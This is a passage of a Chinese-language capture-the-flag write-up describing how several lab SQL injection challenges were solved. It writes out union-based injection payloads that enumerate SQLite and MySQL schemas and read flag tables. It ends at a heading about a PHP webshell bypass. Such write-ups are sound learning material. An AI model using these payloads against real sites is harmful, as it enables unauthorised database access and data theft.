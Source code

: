 ![image-20230901173353567](https://img1.imgtp.com/2023/09/03/NwzmgK5x.png)

发现从第1列

ID='union select (select group_concat(sql) from sqlite_master),2,3,4,5,6,7,8,9--+

![image-20230901173804988](https://img1.imgtp.com/2023/09/03/TsAMD6Dw.png)

可以看出表名为ctf，然后查ID

select ID from ctf

将查询出来的ID输入到网页中进行GET得到flag

![image-20230901204814164](https://img1.imgtp.com/2023/09/03/BV2d934T.png)

### 类11题 简单的SQL注入

注意查询时用id=-1这种查不到的最终

```sqlite
?id=-1' union select (select group_concat(sql) from sqlite_master),2 --+
```

![image-20230902154507995](https://img1.imgtp.com/2023/09/03/KvHhB0P3.png)

最终结果利用sqlite注入语句

![image-20230902154204547](https://img1.imgtp.com/2023/09/03/OEg7nVXG.png)

### 类11题 Basic SQL(oj)

```sql
' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='news'#
```

找表

```sql
' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='f1agfl4gher3'#
```

找列

```sql
' union select 1,group_concat(h3r31sfl4g),3 from news.f1agfl4gher3 #
```

找内容   **from后加数据库.表名**

![image-20230904151153680](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230904151153680.png)

## 12题 (oj木马绕过)Basic PHP 2：

网站中代码如下
